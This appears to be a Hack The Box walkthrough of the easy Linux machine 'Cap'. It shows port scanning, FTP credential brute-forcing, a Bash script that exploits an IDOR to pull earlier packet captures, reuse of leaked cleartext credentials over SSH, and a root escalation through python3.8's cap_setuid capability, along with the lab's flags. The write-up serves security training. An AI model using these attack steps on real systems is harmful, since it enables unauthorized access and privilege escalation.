





+++
title = "Cap"
date = "2024-01-21"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-06-05

**Created by**: [InfoSecJack](https://app.hackthebox.com/users/52045)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.245`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Cap using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.245" -p-
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.245" --top-ports "500"
```

```
<SNIP>
PORT    STATE  SERVICE
22/udp  closed ssh
139/udp closed netbios-ssn
445/udp closed microsoft-ds
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.245" -p "21,22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
<SNIP>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Cap is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.245" -p "21,22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
<SNIP>
```

## Services enumeration

### FTP

#### Exploring the filesystem

`nmap`'s scripts didn't detect that anonymous login is allowed. If we try, we
see that it indeed fails.

Let's use `hydra` with
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
to try common FTP credentials.

```sh
❯ hydra -C "/usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt" "10.10.10.245" "ftp"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed too.

#### Known vulnerabilities

We can't connect to the FTP server. But maybe it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.245" -p "21" --script "vuln"
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
<SNIP>
```

It isn't.

If we search [ExploitDB](https://www.exploit-db.com/) for `vsftpd 3.0.3`, we
only find a DOS vulnerability.

### Gunicorn

#### Exploration

Let's browse to `http://10.10.10.245/`.



We are served a dashboard with various security metrics.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


This reveals that this web page is using Python.

Moreover, the footer of the website leaks that it's using a template made by
[Colorlib](https://colorlib.com/).

#### Exploration

Let's browse to the web pages linked on the sidebar.



The `/capture` page redirects us to `/data/1` after 5 seconds, and saves all the
connections received within this timeframe into a `.pcap` file. It then displays
various information about it, and gives us to possibility to download it.



The `/ip` page shows the output of what looks like the `ifconfig` Linux command.



The `/netstat` page shows the output of what looks like the `netstat` Linux command.

#### Under the hood

If we check the previous requests using Burp Suite, we notice that when we
request the `/capture` page, there's a 5 seconds delay before being redirected
to `/data/1`.

On this web page, if we ask to download the PCAP file, we send a GET request
to `/download/1`.

#### IDOR

When we initiate a request for the network sniffing capture, it's assigned a
unique number. This assigned number is subsequently utilized for downloading the
corresponding PCAP file.

Upon making successive requests, it becomes apparent that the assigned number is
incremented by one every time.

There's likely an IDOR here, which would allow us to download previous captures!

#### Downloading previous captures

Let's use a Bash script to request all captures from number `0` to `99`.

```sh
#!/bin/bash

# Define the target URL
url="http://10.10.10.245/download/"

# Specify the output directory
output_directory="/workspace/pcaps/"

# Create the directory if it doesn't exist
mkdir -p "$output_directory"

# Loop through numbers 0 to 99
for number in {0..99}
do
    # Use curl to check if the URL returns HTTP status code 404
    http_status=$(curl -s -o "/dev/null" -w "%{http_code}" "$url${number}")

    # Check if the HTTP status code is 404 (Not Found)
    if [ "$http_status" -ne 404 ]; then
        # Download the corresponding PCAP file only if not a 404 response
        curl -s -o "${output_directory}${number}.pcap" "$url${number}"
    else
        break
    fi
done
```

I'll save it as `capture_downloader.sh`, and I'll make it executable.

Then I'll run it.

```sh
❯ /workspace/capture_downloader.sh
```

Let's see all the files we just downloaded.

```sh
❯ ls -la "/workspace/pcaps"
```

```
<SNIP>
drwxr-xr-x 2 root root 4096 Feb  3 18:16 .
drwxr-xr-x 4 root root 4096 Feb  3 18:15 ..
-rw-r--r-- 1 root root 9935 Feb  3 18:16 0.pcap
-rw-r--r-- 1 root root   24 Feb  3 18:16 1.pcap
-rw-r--r-- 1 root root   24 Feb  3 18:16 2.pcap
```

There's three PCAP files!

#### Inspecting the `.pcap` files

Upon inspection of all files, `0.pcap` is the one that holds valuable
information.

Interestingly, this PCAP file contains unencrypted FTP communications. We can
see in cleartext that the credentials `nathan`:`Buck3tH4TF0RM3!` have been used
by a user to connect to the server. The user then issued a few commands, but
`RETR notes.txt` is the most noteworthy.

### FTP

#### Exploring the filesystem

Back to the FTP server, let's use the credentials we just discovered to connect
to it.

```sh
❯ ftp "10.10.10.245"
```

```
<SNIP>
Name (10.10.10.245:root): nathan
331 Please specify the password.
Password: 
230 Login successful.
<SNIP>
ftp>
```

Now let's see what it contains.

```sh
ftp> ls -la
```

```
<SNIP>
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Feb 03 16:57 user.txt
<SNIP>
```

We don't find the `notes.txt` requested by the user in the `0.pcap` file, but we
find many files and folders, which could belong to a home folder.

It contains the user flag, but I'll grab it later.

## Foothold (SSH)

Let's try the credentials `nathan`:`Buck3tH4TF0RM3!` to connect to Cap over SSH.

```sh
❯ ssh "nathan@10.10.10.245"
```

```
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
nathan@10.10.10.245's password:
<SNIP>
nathan@cap:~$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `nathan`.

### Architecture

What is Cap's architecture?

```sh
nathan@cap:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Cap is using.

```sh
nathan@cap:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.2 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Cap.

```sh
nathan@cap:~$ uname -r
```

```
5.4.0-80-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
nathan@cap:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
nathan
root
```

There's `nathan` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
nathan@cap:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
ftp
games
gnats
input
irc
kmem
kvm
landscape
list
lp
lxd
mail
man
messagebus
nathan
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
nathan@cap:~$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:368a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:368a  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:36:8a  txqueuelen 1000  (Ethernet)
        RX packets 1710  bytes 190809 (190.8 KB)
        RX errors 0  dropped 61  overruns 0  frame 0
        TX packets 1780  bytes 337962 (337.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1450  bytes 111669 (111.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1450  bytes 111669 (111.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Cap's hostname?

```sh
nathan@cap:~$ hostname
```

```
cap
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
nathan@cap:~$ cat "/home/nathan/user.txt"
```

```
5a9608844c0978d62a4cceaa6243a018
```

### Website code review

Let's review the content of the Gunicorn website, located at `/var/www/html`.

The `app.py` file holds the logic of the website. It uses Flask under the hood
to serve a handful of routes. The `/capture` one is interesting:

```py
<SNIP>
@app.route("/capture")
@limiter.limit("10 per minute")
def capture():

    get_lock()
    pcapid = get_appid()
    increment_appid()
    release_lock()

    path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
    ip = request.remote_addr
    # permissions issues with gunicorn and threads. hacky solution for now.
    #os.setuid(0)
    #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
    command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
    os.system(command)
    #os.setuid(1000)

    return redirect("/data/" + str(pcapid))
```

In order to create a `.pcap` file, it calls `tcpdump` with a 5 seconds timeout
using `os.system`. It calls `os.setuid(0)` prior to this command to get `root`.

I looked for a command injection vulnerability, but unfortunately none of the
variables passed in the command are user-controllable.

Weirdly, if we run `pspy` and browse to `http://10.10.10.245/capture`, here's
the result:

```
<SNIP>
2024/01/21 09:04:25 CMD: UID=1001  PID=2455   | sh -c python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w /var/www/html/upload/1.pcap -i any host 10.10.14.9")'
<SNIP>
```

This command is ran by the user with UID `1001`. Who is that?

```sh
nathan@cap:~$ awk -F: '$3 == 1001 {print $1}' "/etc/passwd"
```

```
nathan
```

That's us! We shouldn't be able to set our UID to `0` though.

### Inspecting `app.py` and `/usr/bin/python3`

Let's check the permissions of `app.py`.

```sh
nathan@cap:~$ ls -la "/var/www/html/app.py"
```

```
-rw-r--r-- 1 nathan nathan 4293 May 25  2021 /var/www/html/app.py
```

It's normal. What about `/usr/bin/python3`?

```sh
nathan@cap:~$ ls -la "/usr/bin/python3"
```

```
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
```

It's a symlink to `/usr/bin/python3.8`.

```sh
nathan@cap:~$ ls -la "/usr/bin/python3.8"
```

```
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8
```

The permissions are also classic. There must be something else then.

Let's check the capabilities of these files.

```sh
nathan@cap:~$ getcap "/var/www/html/app.py"
```

Nothing.

```sh
nathan@cap:~$ getcap "/usr/bin/python3.8"
```

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `/usr/bin/python3.8` binary has two capabilities set: `cap_setuid` and
`cap_net_bind_service+eip`!

## Privilege escalation (Capabilities)

Linux capabilities are a way to divide privileges into distinct units. This
helps in giving a process only the privileges it needs to perform its task,
rather than giving it full superuser privileges.

The `cap_setuid` capability allows a process to change its own user ID to any
other user ID, while the `cap_net_bind_service` capability allows a process to
bind to privileged ports.

Since the `cap_setuid` is set on `/usr/bin/python3.8`, we can execute this binary
and change our UID!

### Exploitation

Let's open a Python session:

```sh
nathan@cap:~$ /usr/bin/python3.8
```

```
<SNIP>
>>>
```

Then, let's import the `os` library.

```sh
>>> import os
```

Now let's set the UID of the process to `root`:

```sh
>>> os.setuid(0)
```

Finally, we can open a shell:

```sh
>>> os.system("/bin/bash -i")
```

```
root@cap:~#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Cap as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@cap:~# cat "/root/root.txt"
```

```
2c68ffb67376ed8e9fc7798df93b2f40
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Very easy'. The foothold
was a bit tricky to find, but trivial to exploit. The privilege escalation only
required proper enumeration to identify and was easy to take advantage of.

Thanks for reading!
